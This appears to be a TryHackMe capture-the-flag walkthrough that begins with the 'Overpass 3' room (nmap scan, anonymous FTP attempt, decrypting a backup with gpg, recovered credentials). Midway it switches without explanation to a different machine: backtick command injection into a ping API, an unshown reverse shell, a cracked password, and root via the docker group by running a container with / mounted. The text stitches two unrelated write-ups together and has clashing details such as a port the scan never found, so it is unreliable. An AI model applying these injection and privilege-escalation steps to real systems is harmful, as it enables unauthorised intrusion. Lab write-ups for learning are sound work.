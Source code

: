 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx overpass3.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV overpass3.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp overpass3.thm                                                                                    
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# HTTP (port 31331)
On the homepage, we learn there is 4 employees
```bash
Paradox - Our lead web designer, Paradox can help you create your dream website from the ground up\
Elf - Overpass' newest intern, Elf. Elf helps maintain the webservers day to day to keep your site running smoothly and quickly.\
MuirlandOracle - HTTPS and networking specialist. Muir's many years of experience and enthusiasm for networking keeps Overpass running, and your sites, online all of the time.\
NinjaJc01 - James started Overpass, and keeps the business side running. If you have pricing questions or want to discuss how Overpass can help your business, reach out to him!\
```
we found /backups/ url with a backup.zip file
in this backup file, there is a gpg file and a key file (used to decrypt the gpg
we decrypt with
```bash
gpg --import priv.key
gpg -d CustomerDetails.gpg 
```

<img width="702" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/c9b6c294-9c53-4fca-b7f0-f66aed812f0b">

paradox:ShibesAreGreat123
0day:OllieIsTheBestDog
A11D0gsAreAw3s0me

if we visit the /utech_sitemap.txt
```bash
/
/index.html
/what.html
/partners.html
```

we exploit the ping API with using the ``` ` ``` char that is interpreted as bash and not filtered\
we do a reverse shell

we found a file 
we crack the password of r00t that is : n100906

finally we found that r00t user is in docker group so we can privesc
```sh
r00t@ultratech-prod:~$ groups
r00t docker
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```

and we are finally root on docker, we can access filesystem by browsing to /mnt
```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt -it bash
bash-5.0#
```
